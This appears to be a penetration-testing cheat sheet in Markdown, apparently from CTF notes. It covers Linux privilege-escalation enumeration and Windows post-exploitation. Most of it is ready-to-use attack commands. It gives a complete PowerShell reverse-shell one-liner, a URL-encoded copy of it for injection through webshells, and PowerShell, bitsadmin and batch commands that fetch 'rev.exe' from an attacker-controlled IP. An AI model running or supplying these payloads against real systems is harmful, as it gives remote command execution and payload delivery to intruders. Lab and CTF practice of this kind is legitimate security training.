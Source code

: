 note always add `2>/dev/null` so you can filter the errors 
```

find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
find / -perm -o w -type d 2>/dev/null: Find world-writeable folders
```

after entering 
clone this 
https://github.com/mzet-/linux-exploit-suggester and use it 


## POWERSHELL
> CHANGE `<ip>` and `<port>`
  
  
One liner reverse shell 
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

same one liner reverse shell but url encoded for webshells
```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

DownloadFile 
```
Invoke-WebRequest -Uri 'http://10.10.167.187:8888/rev.exe' -OutFile '.\rev.exe'
```
## CMD

search files in all directories and subdirectories of the current drive
```
dir /s root.txt
```

Download Files
```
@echo off
bitsadmin /transfer myDownloadJob /download /priority high http://10.10.167.187:8888/rev.exe %cd%\rev.exe
```
Download file in Batch Via Powershell Module
```
powershell -command "Invoke-WebRequest -Uri 'http://10.10.167.187:8888/rev.exe' -OutFile '.\rev.exe'"
```

